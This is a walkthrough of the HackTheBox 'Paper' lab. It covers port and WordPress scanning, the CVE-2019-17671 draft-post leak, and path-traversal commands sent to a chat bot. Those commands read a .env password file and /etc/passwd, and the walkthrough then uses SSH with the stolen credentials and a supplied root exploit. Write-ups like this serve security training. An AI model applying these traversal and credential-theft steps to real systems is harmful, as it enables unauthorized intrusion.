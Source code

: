 # HackTheBox-Paper-Walkthrough
This the the walkthrough for Paper lab in HackTheBox (https://app.hackthebox.com/machines/Paper)
This is my first public walkthrough for a CTF. I would appriciate any contructive critism and suggestions.


This Lab/CTF focuses on Enumerating skills and LFI skills, it does not focus on Priv-Esc or other things which are unlike other CTFs.

*****
NOTES = Replace <ip> with your machine's IP and i have purposefully redacted my machine's ip with "*".
*****

## Enumerating </br>

   I used `nmap` to analyse the IP and see the active ports and services running.</br>
      
```
nmap -sC -sV <ip>
```
<pre>
nmap -sC -sV **.**.**.***
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-31 03:48 IST
Nmap scan report for office.paper (**.**.**.***)
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: Blunder Tiffin Inc. &#8211; The best paper company in the elec...
|_http-generator: WordPress 5.2.3
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.51 seconds  
</pre>

Visited the IP in browser but it was a test website and nothing interesting.

So i decided to `curl` 
```
curl -I <IP>
```
<pre>curl -I **.**.**.***
HTTP/1.1 403 Forbidden
Date: Wed, 30 Mar 2022 22:19:52 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8
</pre>
    
We notice `X-Backend-Server: office.paper`, so in order to access this lets add this our hosts list at `/etc/hosts`
```
sudo nano /etc/hosts
```
<pre>
127.0.0.1	localhost
127.0.1.1	kali
**.**.**.***    office.paper 
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
</pre>

Than i visited `office.paper` in browser and figured out it was an wordpress website as wordpress.org was mention at bottom of page and i was sure after viewing the page source.</br>

The First thing i do if i find a wordpress website is to scan it with `wpscan` to look for vulnerabilities and users.</br>
```
wpscan -e vp vt u --url http://office.paper/
```
WOOOAH we found that it was using vulnerable wordpress version 5.2.3, which was also found by nmap.


## Exploiting </br>

I went to `exploit.db` and search for `WordPress 5.2.3` and found exploit `CVE: 2019-17671`. </br>https://www.exploit-db.com/exploits/47690

We just have to put `?static=1` at end of `office.paper` to reveal secret page in browser.
```
http://office.paper/?static=1
```
Here we found that their is another host `chat.office.paper` so we also add that to our `etc/hosts`</br>

Upon visiting the `chat.office.paper` and messing with it i found the admin `DwightKSchrute` added a bot called `Recyclops`.</br>

After messing with `Recyclops` i figured out that it take certain commands as mentioned in chat but have to start with "recyclops".
</br>
`recyclops list ./` = `ls` </br>
`recyclops file ./<filename>` = `cat <filename>`</br>

Yes i did LFI by adding `./`.</br>
I did not found anything interesting using 
`recyclops list ./`
so i decided to go deeper by using
```
recyclops list ./../
```
I found `user.txt` but we didnt have permission to read it.

Their was a unusual file named "hubot", so i listed its contents using 
```
recyclops list ./../hubot/
```
I read each file content but found password in `.env` file. I used command 
```
recyclops file ./../hubot/.env
```
I have PASSWORD but no USERNAME so i listed the `/etc/passwd ` directory. Using
```
recyclops list ./../../../etc/passwd
```

We found username `dwight`.

## Gaining Access </br>
I ssh into server using credentials found. 
```
ssh dwight@<ip>
```
Enter the Password you found.</br>
Now you have remote shell access via ssh.</br>

I read user.txt
```
cat user.txt
```

## Priv-Esc</br>

This lab did not focused too much on priveledge escalation as i would assume it was about enumeration and LFI.</br>
`linpeash.sh` and `exploit.py` was already their in that directory.

You can directory run `exploit.py` to gain root access by using
```
python3 exploit.py
```
If it doesn't work, run the same command again!</br>
or 

You can run `linpeas.sh` to find vulnerablity and find online exploit and tranfer to this machine and run it but it was already given to us i.e `exploit.py`. 
To run `linpeas.sh` use command
```
./linpeash.sh
```
or 
```
bash linpeas.sh
```
</br>

Read the Root Flag  at `/root/root.txt`
```
cat /root/root.txt
```





